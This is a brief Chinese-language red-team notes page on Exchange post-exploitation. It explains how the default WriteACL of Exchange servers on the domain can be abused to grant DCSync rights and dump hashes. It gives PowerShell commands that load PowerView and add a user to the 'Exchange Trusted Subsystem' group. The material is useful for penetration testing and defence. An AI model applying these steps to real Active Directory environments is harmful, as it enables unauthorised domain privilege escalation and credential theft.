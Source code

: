 ![](../../../../../assets/img/Security/RedTeam/后渗透/实验/Exchange/8.png)

---

# Post Exchange

## ACL

**相关文章**
- [域渗透——使用Exchange服务器中特定的ACL实现域提权](https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-%E4%BD%BF%E7%94%A8Exchange%E6%9C%8D%E5%8A%A1%E5%99%A8%E4%B8%AD%E7%89%B9%E5%AE%9A%E7%9A%84ACL%E5%AE%9E%E7%8E%B0%E5%9F%9F%E6%8F%90%E6%9D%83/)

所有的 Exchange Server 都在 Exchange Windows Permissions 组里面, 而这个组默认就对域有 WriteACL 权限, 那么当我们拿下 Exchange 服务器的时候, 就可以尝试使用 WriteACL 赋予自身 Dcsync 的权限.

使用 powerview，为当前 exchange 机器名用户增加 dcsync 权限, 然后抓取 hash
- https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon
    ```
    Import-Module ActiveDirectory
    Import-Module .\PowerView.ps1
    import-module .\Microsoft.ActiveDirectory.Management.dll
    Add-ADGroupMember -Identity "Exchange Trusted Subsystem" -Members test
    ```
